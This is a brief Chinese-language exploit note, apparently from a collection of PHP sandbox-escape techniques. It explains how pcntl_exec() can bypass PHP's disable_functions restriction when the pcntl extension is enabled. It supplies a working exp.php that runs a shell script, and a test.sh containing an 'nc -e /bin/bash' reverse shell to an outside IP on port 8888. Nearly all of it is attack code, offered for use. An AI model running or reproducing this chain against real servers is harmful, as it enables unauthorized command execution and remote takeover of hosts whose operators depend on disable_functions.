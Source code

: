## ***利用 pcntl_exec 绕过***

**1\. 前提条件**

PHP安装并启用了pcntl插件

**2\. 基本原理**

利用pcntl_exec()这个pcntl插件专有的命令执行函数来执行系统命令，从而绕过disable_functions

**3\. exp**

> exp.php

```php
#利用pcntl_exec()执行test.sh
<?php
if(function_exists('pcntl_exec')) {
  pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
    echo 'pcntl extension is not support!';
}
?>

```

> test.sh

```bash
#!/bin/bash
nc -e /bin/bash 1.1.1.1 8888    #反弹shell

```

